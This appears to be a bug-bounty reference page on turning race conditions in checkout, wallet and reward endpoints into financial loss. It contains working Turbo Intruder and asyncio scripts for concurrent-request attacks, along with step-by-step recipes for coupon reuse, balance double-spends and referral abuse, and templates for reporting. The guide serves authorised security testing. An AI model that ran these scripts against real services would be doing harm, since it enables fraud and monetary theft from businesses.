

> Source: https://bugbounty.info/Chains/Race-Condition-to-Financial

# Race Condition to Financial Impact

## Why This Chain Works

Race conditions in financial flows exist because developers write "check then act" logic without locking. The check happens, passes, and before the state update commits, a second (or third, or tenth) request slips through the same check. The result is double-spends, coupon reuse, reward manipulation, or negative balances. The key to a good report here is showing actual monetary loss, not just "theoretically possible."

Related: [Race Conditions](../Attack-Surface/Web/Business-Logic/Race-Conditions), [Price Manipulation](../Attack-Surface/Web/Business-Logic/Price-Manipulation), [Burp Suite](../Tooling/Burp-Suite/)

---

## Attack Flow



---

## Finding the Vulnerable Flow

### What to Look For

Any operation that:

1. Reads a value (balance, coupon status, reward points)
2. Validates against a condition (enough balance? coupon unused? eligible for reward?)
3. Performs an action (debit, mark coupon used, credit points)
4. Writes the updated state back

Steps 2 and 3 create a window. If you can hit step 3 twice before step 4 commits, you win.

Common vulnerable endpoints:

- `POST /checkout/apply-coupon`
- `POST /rewards/redeem`
- `POST /wallet/transfer`
- `POST /referral/claim`
- `POST /gifts/redeem`
- `POST /subscription/upgrade` (charge once, provision multiple times)
- `POST /contest/enter` (limited entries)

---

## Turbo Intruder Setup

Turbo Intruder is the tool for this. The "single-packet attack" sends all requests in a single TCP packet, eliminating network jitter and maximizing the race window.

### Basic Race Condition Script

In Burp, right-click the target request, send to Turbo Intruder, and use this script:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=20,
                           pipeline=False)
 
    # Send 20 identical requests in a single packet burst
    for i in range(20):
        engine.queue(target.req, None)
 
def handleResponse(req, interesting):
    table.add(req)
```

For the single-packet attack (HTTP/2 required):

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=50,
                           pipeline=False,
                           engine=Engine.BURP2)
 
    for i in range(50):
        engine.queue(target.req, None, gate='race')
 
    engine.openGate('race')
 
def handleResponse(req, interesting):
    table.add(req)
```

The `gate` parameter holds all requests until `openGate` is called, then releases them simultaneously.

### HTTP/1.1 Last-Byte Sync (when HTTP/2 isn't available)

Send each request but withhold the last byte. Once all are queued, flush them simultaneously:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=1,
                           pipeline=False)
 
    for i in range(30):
        engine.queue(target.req, None, gate='race1')
 
    engine.openGate('race1')
```

---

## Step-by-Step: Coupon Race

### Setup

1. Create two test accounts if possible (or use one).
2. Generate or find a valid one-time coupon code.
3. Note your current balance/cart total.
4. Prepare the coupon application request in Burp.

### Execution

1. Intercept `POST /checkout/apply-coupon` with `coupon=SAVE20`.
2. Send to Turbo Intruder.
3. Run 20-50 concurrent requests with the same coupon code.
4. Check: how many returned 200 OK with "coupon applied" vs "coupon already used"?
5. Complete the checkout. Did the discount apply more than once?

### What to Document

```text
Starting cart total: $100.00
Coupon SAVE20 = 20% off = -$20.00
Expected: coupon applied once, total = $80.00
 
Race results: 8/20 requests returned 200 "coupon applied"
Actual checkout total: $100 - ($20 * 8) = -$60.00 (credited to account)
 
Screenshot: Turbo Intruder results (8x 200 OK)
Screenshot: Final order total showing $60 account credit
```

---

## Step-by-Step: Balance Double-Spend

### Setup

1. Fund a test wallet with $10.
2. Prepare a withdrawal/transfer request for $10.
3. You want to withdraw $10 twice, ending up with $20 withdrawn from a $10 balance.

### Execution

1. Capture `POST /wallet/withdraw` with `amount=10`.
2. Send 10 concurrent requests simultaneously.
3. Check: did the balance go to -$10? Did two withdrawal confirmations arrive?

### Red Flags in the Response

If you see the same `transaction_id` in multiple successful responses, the server processed the same transaction multiple times. If you see different `transaction_id` values with the same amount, each request created a separate transaction from the same balance read.

---

## Step-by-Step: Referral/Reward Abuse

```text
Normal flow: refer a friend -> friend signs up -> you get 500 points (one time)
Race: trigger the reward endpoint 20 times simultaneously -> receive 500 * N points
```

Some reward systems check "has this referral been claimed?" and then credit in the same request, without a lock. Race it.

---

## Turbo Intruder vs. Python vs. Curl

For most cases, Turbo Intruder is superior because it handles HTTP connection management for you. But for some flows (especially those using WebSockets or requiring session setup), a Python script with `asyncio` and `aiohttp` gives more control:

```python
import asyncio, aiohttp
 
async def send_request(session, url, data, headers):
    async with session.post(url, data=data, headers=headers) as resp:
        return resp.status, await resp.text()
 
async def race(n=20):
    async with aiohttp.ClientSession() as session:
        tasks = [send_request(session, 'https://target.com/redeem',
                              {'coupon': 'SAVE20'},
                              {'Cookie': 'session=YOUR_SESSION'})
                 for _ in range(n)]
        results = await asyncio.gather(*tasks)
        for status, body in results:
            print(status, body[:100])
 
asyncio.run(race())
```

---

## PoC Template for Report

```text
Vulnerability: Race condition in coupon redemption endpoint
Endpoint: POST /api/v1/checkout/coupon
 
Steps:
1. Added item ($50) to cart
2. Obtained valid coupon "FREESHIP" (free shipping, $9.99 value)
3. Sent 25 concurrent requests to apply coupon using Turbo Intruder single-packet attack
4. Result: 7 requests returned 200 OK with {"applied":true,"discount":9.99}
5. 18 requests returned 400 {"error":"coupon_already_used"}
6. Completed checkout: total showed $50 - ($9.99 * 7) = $0.07
 
Financial impact: $9.99 * 6 extra = $59.94 obtained per exploit execution
Turbo Intruder script and response log attached.
```

---

## Reporting Notes

Quantify the money. "$X lost per exploit execution" is what makes this a high or critical, not just "race condition exists." Show the before and after balances. Attach the Turbo Intruder results showing multiple 200 OK responses to the same idempotent operation. If you can run it twice to show reproducibility, do that. Note the thread count and timing that triggers it reliably.
